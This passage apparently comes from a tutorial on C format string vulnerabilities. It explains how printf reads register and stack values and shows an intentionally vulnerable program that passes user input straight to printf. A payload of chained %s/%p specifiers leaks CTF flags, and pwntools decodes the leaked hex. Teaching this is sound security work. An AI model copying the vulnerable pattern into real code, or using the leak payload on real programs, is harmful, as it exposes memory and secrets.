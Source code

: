 `rsi` stores the second argument.  Why was it used instead of `rdi`, which stores the first argument? Because `rdi` would always store the pointer to `format string`)

Consider another example:

```c
  printf("%p %p %p %p %p %p %p %p %p %p");
```

In this example, values from the `rsi`, `rdx`, `rcx`, `r8`, and `r9` registers, as well as 5 values from top of the stack would get printed.

Consider another example:

```c
#include <stdio.h>

int login(const char* username, const char* password) {
    return 0;
}

int main() {
  char input[20];
  char flag[] = "CTF{flag_on_stack}";

  scanf("%19s", input);
  login("inte", "CTF{flag_in_args}");
  printf(input);

  return 0;
}
```

The `flag` variable gets declared and its value gets stored on the stack.  
Afterwards, the call stack for `login()` sets `rsi` to `CTF{flag_in_args}`  
The following `printf()` call has nothing to do with the `flag` or the argument to `login`, and yet they can be leaked:

```console
inte@debian-pc:~$ docker run --rm -v "$(pwd):/app" -w /app gcc:10.5.0 gcc example2.c -o example2
inte@debian-pc:~$ ./example2
%s.%p.%p.%p.%p.%p.%p.%p
CTF{flag_in_args}.(nil).(nil).0x402005.0x7efc275cca80.0x67616c667b465443.0x636174735f6e6f5f.0x7d6b
```

The first three values from the stack are little-endian hex representations of the flag:

```py
>>> from pwn import *
>>> p64(0x67616c667b465443)
b'CTF{flag'
>>> p64(0x636174735f6e6f5f)
b'_on_stac'
>>> p16(0x7d6b)
b'k}'
```
